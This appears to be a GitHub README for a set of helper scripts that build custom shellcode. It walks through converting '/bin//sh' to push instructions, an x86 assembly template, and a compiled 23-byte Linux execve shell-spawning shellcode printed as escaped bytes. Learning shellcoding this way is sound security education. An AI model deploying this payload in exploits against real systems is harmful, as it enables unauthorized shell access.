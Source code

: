 # shellcoding
Just a collection of scripts to help out with basic custom shellcoding.
Plans to integrate everything toghether in the future and pipe to cfuzz

##Stringhex
root@kali:~/shellcoding# stringhex /bin//sh

Hex for string '/bin//sh' is: \x68\x73\x2F\x2F\x6E\x69\x62\x2F

//sh: push 0x68732f2f

/bin: push 0x6e69622f

[**] Copy and paste the below directly into the .asm.

    push 0x68732f2f

    push 0x6e69622f

##Newasm
root@kali:~/shellcoding# newasm test

root@kali:~/shellcoding# cat test.asm

global _start

_start:

    xor eax, eax

    push eax

    ;add your payload here

####Our /bin//sh from before
    push 0x68732f2f

    push 0x6e69622f
//The 2 bushes above we added from stringhex /bin//sh
    mov ebx, esp

    push eax

    ;add your additional argument here

    ;mov ecx, esp

    ;push eax

    ;push ecx

    push ebx

    mov ecx, esp

    mov al, 11

    int 0x80

##chex
root@kali:~/shellcoding# chex test

\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80

Shellcode is 23 bytes long
####This automatically compiles your asm file, generates some hex, and gives your the length.
